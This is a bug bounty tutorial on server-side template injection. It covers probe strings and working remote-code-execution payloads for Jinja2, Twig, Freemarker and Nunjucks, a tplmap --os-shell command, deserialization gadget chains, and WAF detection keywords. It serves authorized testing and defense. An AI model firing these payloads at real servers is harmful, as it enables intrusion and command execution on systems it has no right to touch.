

# Server-Side Template Injection (SSTI)

## When to Use
- When discovering input fields (e.g., Usernames, Email Templates, URL parameters) that are directly rendered or reflected on the corresponding web page without sanitization.
- When XSS (Cross-Site Scripting) payloads are blocked or escaped, but the server appears to be interpreting special bracket characters (`{{ }}`, `${ }`, `<% %>`).
- When attempting to escalate a simple input reflection bug into full Remote Code Execution (RCE) on the server.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Detection and Identification

```text
# Concept: If an application unsafely passes user input into a template rendering engine, 
# it will evaluate mathematical expressions wrapped in template syntax.

# 1. Probe the application with standard template tags
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}

# 2. Analyze the response
# If the application reflects verbatim: "{{7*7}}" -> Not vulnerable, or wrong tag.
# If the application reflects: "49" -> CRITICAL! SSTI exists. The server evaluated the math.
# If the application throws an Error: The stack trace often reveals the exact engine (e.g., "Jinja2 Exception", "Twig Error").
```

### Phase 2: Engine Mapping

```text
# Once mathematical evaluation is proven, you must determine WHICH template engine is running,
# as specific payloads vary drastically between Python, Java, Ruby, and PHP engines.

# PortSwigger SSTI Decision Tree:
# Input: {{7*'7'}}
# - If output is 49     -> Looks like Twig (PHP)
# - If output is 7777777 -> Looks like Jinja2 (Python) or Nunjucks (Node)
# - If output is error   -> Try Java/Ruby syntaxes.

# Input: ${7/0}
# Java engines (Freemarker, Velocity) will throw specific arithmetic exceptions.
```

### Phase 3: Context Escaping and Sandbox Evasion

```text
# Most template engines run in a "sandbox" preventing direct access to the underlying OS.
# The goal is to traverse the object map to find classes that allow system execution (e.g., `os.popen`).

# --- EXPLOITING JINJA2 (PYTHON / FLASK) --- #

# 1. Base Class Traversal
# Get the object class, traverse up to the base object (`object`), then find all subclasses loaded in memory.
{{ ''.__class__.__mro__[1].__subclasses__() }}

# Output will be a massive array of hundreds of Python classes. 
# Search the output for classes capable of executing commands, such as `subprocess.Popen`, `os._wrap_close`, or `importlib`.

# 2. Extracting the Index (e.g., we find `<class 'os._wrap_close'>` at index 117)
{{ ''.__class__.__mro__[1].__subclasses__()[117] }}

# 3. Payload Construction (Achieving RCE)
# Pass the shell command to the mapped execution class.
{{ ''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen']('id').read() }}
# Output: uid=1000(www-data) gid=1000(www-data)
```

### Phase 4: Exploiting Other Common Engines

```text
# --- EXPLOITING TWIG (PHP) --- #
# Exploit the `registerUndefinedFilterCallback` to execute arbitrary PHP functions.
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{app.request.server.all|keys|join(',')}}

# --- EXPLOITING FREEMARKER (JAVA) --- #
# Expose the `freemarker.template.utility.Execute` class.
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }

# --- EXPLOITING NUNJUCKS (NODE.JS) --- #
# Climb the prototype chain to reach native Node.js processes.
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

### Phase 5: Automated Testing via Tplmap

```bash
# Tplmap conceptually mimics SQLmap but is designed for template injection.

# 1. Clone Tplmap
git clone https://github.com/epinna/tplmap.git

# 2. Scan a specific parameter
python2 tplmap.py -u "http://target.com/page?name=inject_here"

# 3. Request a Reverse Shell (if the engine is vulnerable and supports RCE)
python2 tplmap.py -u "http://target.com/page?name=inject_here" --os-shell
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Logicless Templates**: The most secure defense is migrating to "logicless" template engines (like Mustache/Handlebars without helper functions) that explicitly cannot execute code, even if unsanitized user input is evaluated.
- **Strict Separation**: NEVER construct template files dynamically using string concatenation containing user input. User input should always be passed as data parameters *contextualized* within a static, predefined template.
  - VULNERABLE: `template = Template("Hello " + user_input)`
  - SECURE: `template = Template("Hello {{ name }}"); template.render(name=user_input)`
- **Sandboxing**: Modern template environments should possess strict security configurations locking down their ability to read the file system or spawn child processes.
- **WAF Rules**: Alert on multiple bracket sequences `{{`, `${`, `<%` combined with common reflection keywords (`__class__`, `subclasses`, `require`, `exec`).

## Key Concepts
| Concept | Description |
|---------|-------------|
| SSTI | Occurs when user input is incorrectly embedded directly into a template, allowing logic execution |
| Template Engine | Software designed to combine a base HTML/Data template with a specific data model (Jinja2, Twig) |
| MRO | Method Resolution Order; In Python, a tuple of classes indicating the order Python looks up methods. Used in SSTI to walk up the execution chain |
| RCE | Remote Code Execution; the ultimate goal allowing the attacker to run arbitrary OS commands |

## Output Format
```
SSTI Vulnerability Report
=========================
Endpoint: POST /api/v1/generate_report
Parameter: `custom_title`
Template Engine: Jinja2 (Python)

Summary:
The `custom_title` parameter on the report generation screen is vulnerable to Server-Side Template Injection. The underlying Flask web framework dynamically constructs the Jinja2 template strings with raw user input.

Evidence:
Submission of the payload `{{7*7}}` results in the PDF output header rendering as "49".
Submission of the payload:
`{{ ''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen']('whoami').read() }}`

Resulting execution output rendered on page:
`svc_reporting_app`

Impact: HIGH/CRITICAL. This allows unauthenticated Remote Code Execution (RCE) and full shell access to the web server container.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (Deserialization RCE)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Pornhub** | $20,000 | Ruslan Habalov | RCE via PHP deserialization — breaking PHP engine | 2023 |
| **Pornhub** | $10,000 | 5haked | Separate RCE via PHP deserialization chain | 2023 |
| **Uber** | (Disclosed) | Orange Tsai | RCE via Flask Jinja2 Template Injection (SSTI) | 2023 |

**Key Lesson**: PHP deserialization RCE consistently pays $10K-$20K. Two different researchers
found separate RCE chains on the same target — proving that one RCE fix doesn't mean the 
app is safe. Orange Tsai's Flask SSTI on Uber shows Python apps are equally vulnerable.

**Real gadget chains that work:**
- PHP: `unserialize()` + POP chain → file write → webshell
- Java: ysoserial CommonsCollections → `Runtime.exec()`
- Python: `pickle.loads()` + `__reduce__` → `os.system()`
- .NET: `BinaryFormatter` + TypeConfuseDelegate → RCE

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [Server-side template injection](https://portswigger.net/web-security/ssti)
- HackTricks: [SSTI Payloads & Syntax](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- Tplmap: [GitHub Repository](https://github.com/epinna/tplmap)
